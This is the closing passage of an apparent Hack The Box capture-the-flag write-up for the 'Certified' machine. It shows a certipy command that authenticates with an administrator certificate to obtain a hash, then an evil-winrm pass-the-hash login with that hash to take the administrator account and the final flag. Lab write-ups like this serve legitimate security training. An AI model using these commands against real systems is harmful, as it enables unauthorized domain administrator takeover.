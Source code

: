 ```
certipy auth -pfx administrator.pfx -domain certified.HTB
```

![admin](../../../../../assets/certified/admin.png)

Now we have a hash to access as administrator. We verify if we can log in via WinRM.

![pwn3d](../../../../../assets/certified/Pwn3d.png)

By connecting with Evil-WinRM, we access the administrator's desktop and obtain the final flag.

```
evil-winrm -i 10.10.11.41 -u "administrator" -H '0d5b49608bbce1751f708748f67e2d34'
```

# END

